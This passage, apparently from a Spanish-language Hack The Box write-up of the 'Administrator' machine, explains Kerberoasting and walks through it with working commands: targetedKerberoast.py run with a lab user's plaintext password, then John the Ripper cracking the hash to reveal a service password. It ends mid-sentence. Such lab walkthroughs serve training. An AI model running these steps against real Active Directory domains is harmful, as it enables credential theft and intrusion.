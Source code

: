 ![](../assets/images/htb-administrator/imagen6.png)

El ataque Kerberoasting aprovecha el hecho de que en Active Directory:
 - Cualquier usuario autenticado puede solicitar un Ticket Granting Service (TGS) para cualquier cuenta que tenga un Service Principal Name (SPN).
 - El ticket TGS está cifrado con la contraseña del servicio asociado (el usuario que corre ese servicio).
 - Estos tickets pueden ser crackeados offline con herramientas como Hashcat o John the Ripper, revelando la contraseña del usuario de servicio.

**Noto que mi maqina atacante está desfasada casi 7 horas con el servidor**
```bash 
ntpdate -q 10.10.11.42
2025-04-22 11:49:34.229874 (-0400) +25201.105948 +/- 0.055748 10.10.11.42 s1 no‑leap
```

Ahora ya podemos lanzar el ataque: 

```bash 
python3 targetedKerberoast.py --dc-ip 10.10.11.42 -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -U hash_ethan
```

E intentamos crackearla: 
```bash 
john hash -w:/usr/share/wordlists/rockyou.txt
``` 

Con una buena pc lo crackea rápido. 

**Tenemos la contraseña: limpbizkit**

Revisando las características de ethan: 
